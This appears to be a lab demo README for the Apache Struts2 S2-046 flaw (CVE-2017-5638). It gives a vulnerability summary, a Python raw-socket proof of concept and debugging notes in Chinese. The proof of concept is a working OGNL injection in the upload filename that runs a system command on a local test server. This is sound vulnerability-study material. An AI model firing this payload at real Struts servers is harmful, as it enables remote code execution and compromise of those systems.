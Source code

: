 # S2-046 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Possible RCE when performing file upload based on Jakarta Multipart parser |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) or [Struts 2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) |
| Affected Software       | Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10     |
| Reporter                | Chris Frohoff <cfrohoff at qualcomm dot com>, Nike Zheng <nike dot zheng at dbappsecurity dot com dot cn>, Alvaro Munoz <alvaro dot munoz at hpe dot com> |
| CVE Identifier          | CVE-2017-5638                                                |

## Problem

在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Disposition的filename来触发该漏洞，进而执行系统命令。

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![{F77DE265-A68E-4CB6-9819-2A14C06C1F2A}_20200727162951]({F77DE265-A68E-4CB6-9819-2A14C06C1F2A}_20200727162951.jpg)

Python exp（因为要发送畸形数据包，所以使用原生socket编写payload，见参考链接2）: 

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST /s2_046_war_exploded/Upload.action HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('localhost', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```

## Debug

具体分析可参考：[【漏洞分析】Struts2 S2-046 漏洞原理分析）](https://www.anquanke.com/post/id/85776)。在这里只记录一下调试入口以及大致原理。

Content-Disposition中的Filename参数存在空字节，在检查时会抛出异常，会进入buildErrorMessage()方法。

在buildErrorMessage()方法处下断点，运行exp触发断点。

`s2-046/web/WEB-INF/lib/struts2-core-2.3.24.jar!/org/apache/struts2/dispatcher/multipart/JakartaMultiPartRequest.class:91`

![{D37502F2-3FD8-4046-8297-A5ED2E8FDE61}_20200727164242]({D37502F2-3FD8-4046-8297-A5ED2E8FDE61}_20200727164242.jpg)

## Reference

- [S2-046](https://cwiki.apache.org/confluence/display/WW/S2-046)
- [S2-046 远程代码执行漏洞（CVE-2017-5638）](https://github.com/vulhub/vulhub/blob/master/struts2/s2-046/README.zh-cn.md)
- [【漏洞分析】Struts2 S2-046 漏洞原理分析）](https://www.anquanke.com/post/id/85776)

